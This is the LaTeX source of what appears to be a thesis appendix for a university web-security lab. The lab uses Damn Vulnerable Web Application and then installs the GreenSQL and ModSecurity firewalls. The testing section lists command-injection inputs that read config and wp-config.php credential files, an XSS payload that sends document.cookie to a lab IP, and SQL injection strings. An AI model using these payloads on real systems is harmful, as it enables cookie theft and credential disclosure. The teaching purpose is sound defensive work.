 
\includegraphics[width=0.8\textwidth]{DVWA_Main_Page.pdf}
 \rule{30em}{0.5pt}  
 \caption{Damn Vulnerable Web Application - default page} 
 \label{Damn Vulnerable Web Application - default page} 
\end{figure}

\subsection{Testing vulnerabilities}
For understanding a defence of web application a basic offensive knowledge and skills are needed. However, this lab focused on defensive methods and will not provide knowledge about different \gls{OWASP} top ten. 

\colorbox{red}{\parbox{\textwidth}{DISCLAIMER: Do not use followed methods on any computer except lab computer and only for learning propose!}}

\subsubsection{Command execution}
Read command execution material given in Command Execution menu and try and explaing following commands and results.

\begin{minted}[frame=lines,framesep=2mm]{bash}
8.8.8.8; sed 's/</UUUU/' ../../config/config.inc.php

#Find out directory and file structure of \gls{DVWA}
8.8.8.8; ls -l 
8.8.8.8; ls -l ../
8.8.8.8; ls -l ../../
8.8.8.8; sed 's/<//'  ../../../../wordpress/wp-config.php
8.8.8.8; touch /var/tmp/new_file.txt
8.8.8.8; ls /var/tmp/
\end{minted}

Try following command and explain what can describe output of following command?
\begin{minted}[frame=lines,framesep=2mm]{bash}
; grep session.cookie_httponly /etc/php5/apache2/php.ini
\end{minted}
What attack vectors are possible when cookie\_httponly is set or not?

\begin{minted}[frame=lines,framesep=2mm]{bash}
session.cookie_httponly = 1
\end{minted}

What are better solution $0 or 1$?
\begin{minted}[frame=lines,framesep=2mm]{bash}
session.cookie_httponly = 0
\end{minted}
XSS
\begin{minted}[frame=lines,framesep=2mm]{bash}
<script>var i='<img src="http://192.168.56.101/'+document.cookie+'" />'; document.write(i);</script>
\end{minted}
veel XSSi
\begin{minted}[frame=lines,framesep=2mm]{bash}
%3Cscript%3Evar+i%3D%27%3Cimg+src%3D%22http%3A%2F%2F192.168.56.101%2F%27%2Bdocument.cookie%2B%27%22+%2F%3E%27%3B+document.write%28i%29%3B%3C%2Fscript%3E
\end{minted}
SQLi
\begin{minted}[frame=lines,framesep=2mm]{bash}
#blind
1' union select BENCHMARK(100000000,ENCODE('hello','goodbye')),1; # --
 
 
2' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES;# --
 
 
3' union  select TABLE_NAME,COLUMN_NAME from information_schema.columns; # --

\end{minted}



\section{Installation of SQL Application Firewall}
SQL database firewall filters and rejects injected sql statements from untrusted web application. SQL firewall is application type firewall and usually understands database engine and SQL internals to determine possible malicious commands. For example detecting  SQL tautology (statement that gives always true) demands understanding SQL syntax and semantics. Detecting SQL tautology helps prevent commonly used authorization bypassing techniques.
Each database engine behaves differently and SQL firewalls are database engine aware.


Examples of commonly used database firewalls:
\begin{itemize}
\item DB Green SQL database firewall. Supports MySQL, Microsoft SQL Server, PostgreSQL
\item GreenSQL Open Source database firewall. Supports MySQL, PostgreSQL.
\item ORACLE database firewall. Supports Oracle, MySQL, Microsoft SQL Server, IBM DB2 and Sybase databases
\item SecureSphere Database Firewall. Supports Oracle, Microsoft SQL Server, Sybase, DB2, Informix, MySQL, Progress, Teradata, Netezza backends.
\end{itemize}

SQL firewalls can reject and intercept queries and modify whitelists and blacklists. Database firewalls can give false positives and false negatives during operations. Database firewall can be used in most cases but for web applications that can compose any SQL query (like  phpmyadmin for example) those solutions are not efficient. It is also possible to abuse business logic with whitelisted queries and SQL database firewalls can’t protect for those queries.
Some database firewalls supports monitoring queries and killing queries that are consuming too many resources.

Pros:
Effective way to protect SQL server for common injection attacks like SQL tautology ( ‘1’=’1’, ‘1’ like ‘1’ for example), union, if (if order by are used, then union is not allowed) etc.
Firewalls can learn to compose whitelists/blacklists.

Cons:
Each firewall can be used to protect some particular database backends.
Can give false positives and false negatives.

Conclusion for  database firewall:
If web application is SQL injection prone then database firewall solution should be used.
For proper protection some other methods should also used like least privileges and filtering before web application.

\subsection{GreenSQL Open Source SQL Firewall}
\subsubsection{Installing GreenSQL from pre built package (FOR BEGINNERS)}
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://elab.itcollege.ee:8000/Day3/greensql-fw_1.3.0_amd64.deb
dpkg -i greensql-fw_1.3.0_amd64.deb
apt-get install -f

#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd /var/www/greensql
chmod 0777 templates_c
\end{minted}

\subsubsection{Installing GreenSQL Open Source frou source code (For Advanced Students)}


Download greensql-fw from download page.
\begin{minted}[frame=lines,framesep=2mm]{bash}

wget -O greensql-fw-1.3.0.tar.gz \
 "http://elab.itcollege.ee:8000/greensql-fw-1.3.0.tar.gz"

#Extract source code
tar zxvf greensql-fw-1.3.0.tar.gz

#Install pre requirements
apt-get install flex
apt-get install bison
apt-get install devscripts
apt-get install debhelper
apt-get install libpcre3-dev
apt-get install libmysqlclient-dev
apt-get install libpq-dev

#Build deb package (In this case it fails. Find out why.)
./build.sh
#Install package with dpkg
dpkg -i greensql-fw_1.3.0.deb
#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd greensql
chmod 0777 templates_c
\end{minted}

\section{Installation of Mod Security Application Firewall}
\begin{minted}[frame=lines,framesep=2mm,fontsize=\scriptsize]{bash}

sudo apt-get update
sudo apt-get install libxml2 libxml2-dev libxml2-utils
sudo apt-get install libapache2-modsecurity
ln -sf /usr/lib/x86_64-linux-gnu/libxml2.so.2 /usr/lib/libxml2.so.2
sudo mv /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
cd /tmp
 
wget http://downloads.sourceforge.net/project/mod-security/modsecurity-crs/0-CURRENT/modsecurity-crs_2.2.5.tar.gz
 
sudo tar zxf modsecurity-crs_2.2.5.tar.gz
 
sudo cp -R modsecurity-crs_2.2.5/* /etc/modsecurity/
 
sudo rm modsecurity-crs_2.2.5.tar.gz
 
sudo rm modsecurity-crs_2.2.5 -r
 
sudo mv /etc/modsecurity/modsecurity_crs_10_setup.conf.example /etc/modsecurity/modsecurity_crs_10_setup.conf 
\end{minted}


To enable rulesets create /etc/apache2/conf.d/modsecurity.conf file with following content:
\begin{minted}[frame=lines,framesep=2mm]{apache}
<ifmodule mod_security2.c>
SecRuleEngine On
</ifmodule>
\end{minted} 
\begin{minted}[frame=lines,framesep=2mm]{bash}
 
sudo a2enmod mod-security
sudo service apache2 restart

\end{minted}


File /etc/apache2/mods-enabled/mod-security.conf
\begin{minted}[frame=lines,framesep=2mm]{apache}

<IfModule security2_module>
        # Default Debian dir for modsecurity's persistent data
        SecDataDir /var/cache/modsecurity
 
        # Include all the *.conf files in /etc/modsecurity.
        # Keeping your local configuration in that directory
        # will allow for an easy upgrade of THIS file and
        # make your life easier
        Include "/etc/modsecurity/*.conf"
        Include "/etc/modsecurity/activated_rules/*.conf"
#       Include "/etc/modsecurity/optional_rules/*.conf"
        Include "/etc/modsecurity/base_rules/*.conf"
</IfModule>
\end{minted} 

\url{https://www.owasp.org/index.php/Category:OWASP_ModSecurity_Core_Rule_Set_Project}
\url{http://blog.spiderlabs.com/2011/07/modsecurity-sql-injection-challenge-lessons-learned.html}




\section{Securing Web Application Configuration}
\begin{itemize}
\item Setting Document Cookies to HTTP Only
\item Fixing Database Privileges
\item Separating Web Applications (for internal use and for external use)
\end{itemize}

\section{Final System Architecture} 
Keep in mind that final architecture contains several components to provide layered security for insecure web application as seen on Figure ~\ref{Architecture of Secured Web Application}

\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.9\textwidth]{web_security_lab_goal.pdf}
 \rule{35em}{0.5pt} 
 \caption{Architecture of Secured Web Application} 
 \label{Architecture of Secured Web Application} 
\end{figure}




\chapter{Subject Program - Securing IT Infrastructure Services}
\label{appendix:SubjecProgram}

%\includepdf{"./illustrations/IT infrastruktuuri teenuste turvamine - aineprogramm 2013.pdf"}

\includepdf[pages=-,pagecommand=\thispagestyle{plain},noautoscale,scale=0.9]{./illustrations/study_program.pdf}

\chapter{Feedback from students}
\section{Comments from intensive course students}



\subsubsection{Feedback from second group: International students}
Intensive Programme 2013 "Deploying IT Infrastructure Solutions" contains one hands-on course: Protecting web applications. Students were from Estonia, Finland, Greece and from Lithuania. 
Only Estonian students (1/3 from all students) had previous experience with GNU/Linux and this practical class was too hard for most of the students because insufficient previous knowledge:

 Comments from students (unchanged): 
*It was a bit fast, but as I have been dealing with DVWA and this kind of course before, it was okay for me. I was helping other participants. 
*quite hard to follow and was specific for one team. 
*Very important for the Security team, and good new perspectives and experiences for everyone else too. 
*Interesting course. Liked that Estonians helped people who weren’t very familiar with linux. Nothing new to me. 
*This was carried out as a practical class and was quite tough since I had little previous Linux experience. 
*It was a very long, tiring practice lecture. Somehow it would have been better to separate the long lecture into several parts. It would have been more productive. Otherwise tired lecturer and students couldn’t follow.  
*I took my first baby steps towards being professional hacker. In some cases, following teachers teaching was hard because of the fast pace. 
*Not that relevant for all projects, but still important thing to understand as a IT student. 
*Awesome, hacking is interesting. 
*Nice topic and useful to our project. It was like a first bite of our project. And Margus taught things so that everyone can learn.
*That was something different out of software engineering field 
*Very good lecture. Difficult to follow. 
*I really like to search for security holes and vulnerability threats in web pages and this tool is one of the best for testing, but I didn't manage to follow the teacher's step by step tutorial. I have got messed up in virtual machines, because I didn't have the experience for them, however I have managed to learn more about them after this topic, also Margus explained more about DVWA tool for our team, so I got the idea.


\section{Toormaterjal}
Siin on asjad, kust tõstan mingid lõigud töösse

\begin{verbatim}
8.8.8.8; pwd

8.8.8.8; cp ../../config/config.inc.php /tmp/asi.txt

8.8.8.8; cat /tmp/asi.txt

Kuigi ping tulemuste all pole config faili sisu näha, 
tehes lehel parema kliki ja valides "View Page Source" näeme, et source faili sees on config.inc.php sisu olemas.


    DVWAs kasutades "Command execution" andmebaasi loomine:
    8.8.8.8; mysql --user=root --password='student' -e 'create database kala;'

Software eggs
http://www.itcollege.ee/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000
    

\end{verbatim}

Lisada upstart ülesanne mysql oom score tuunimiseks.


DHCP laborisse lisada shared-network konfig

Iga peatüki juurde panna kirja, mitu lehekülge on vaja.
E-kiri tsitaatidena - ainult vajalikud osad.
ainekava ei tõlgi - Jääb lisasse eesti keelsena
neljapäeva hommikul 16. saadan töö. - tühja kohta ei ole - todo on tehtud ja jääb keelekorrektuur.
neljapäevaks kaitsmisproov.



{\color{red} 
Usable to design a learner centric course instead of teacher centric. 

\url{http://www.youtube.com/watch?v=zB92UMyYzKM}

Course content - get attencion
Ingeraction amoungs students
Jugement 
Student diversity - ebaühtlus
Create a role played scenario
Analyse the material.

\url{http://www.youtube.com/watch?v=oRgLqEF-qAU}

}



%\chapter{LaTeX testing stuff}
\label{LaTeX testing stuff}
{\color{red} 
{\huge Please ignore this chaper ...
This chapter will be excluded from final version.}
}

\begin{tikzpicture}[level distance=2cm,
level 1/.style={sibling distance=5.5cm},
level 2/.style={sibling distance=2.2cm},scale=1.2]
\node {\Large Puu test}
child {node {\large Siga}
child {node {esimene}}
}
child {node {\large Kala}
child {node {teine}}
child {node {kolmas}}
child {node {neljas}}
};
\end{tikzpicture}


{\huge\today}
\fontspec{Ubuntu}
Reason of this chapter is to test \LaTeX  stuff...
\rule{2.6cm}{0.75pt}  \hspace{3cm} üü \rule{3cm}{0.75pt}\\[2cm]
\begin{itemize}
	\item LaTeX testing stuff
	\item LaTeX testing stuff LaTeX testing stuff
\end{itemize}
\begin{Verbatim}[frame=single]
stuff
\end{Verbatim}

\ldots
\marginpar{\tiny This note will appear in the margin.}


\underline{Text you want underlined goes here.}




\begin{Verbatim}[frame=single,
label=Command output,framesep=2mm,rulecolor=\color{red},commandchars=\\\{\}]
margus@marguspc:~$ df -h
Filesystem             Size  Used Avail Use% Mounted on
